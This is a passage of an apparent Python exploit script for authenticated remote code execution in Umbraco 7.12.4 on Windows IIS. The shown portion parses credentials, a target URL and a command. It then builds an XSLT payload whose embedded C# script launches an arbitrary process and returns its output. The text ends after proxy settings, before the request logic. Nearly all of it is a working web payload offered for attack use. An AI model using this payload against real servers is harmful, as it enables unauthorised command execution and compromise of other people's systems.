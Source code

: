 # Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')                                                                                                                          
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,                                                                            
    dest='command', help='command')                                                                                                                       
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,                                                                        
    dest='arguments', help='arguments', default='')                                                                                                       
args = parser.parse_args()                                                                                                                                
                                                                                                                                                          
# Payload                                                                                                                                                 
payload = """\                                                                                                                                            
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\                                               
""" % (args.arguments, args.command)                                                                                                                      
                                                                                                                                                          
login = args.user                                                                                                                                         
password = args.password                                                                                                                                  
host = args.url                                                                                                                                           
                                                                                                                                                          
http_proxy  = "http://127.0.0.1:8080"                                                                                                                     
https_proxy  = "http://127.0.0.1:8080"                                                                                                                    
ftp_proxy  = "http://127.0.0.1:8080"                                                                                                                      
                                                                                                                                                          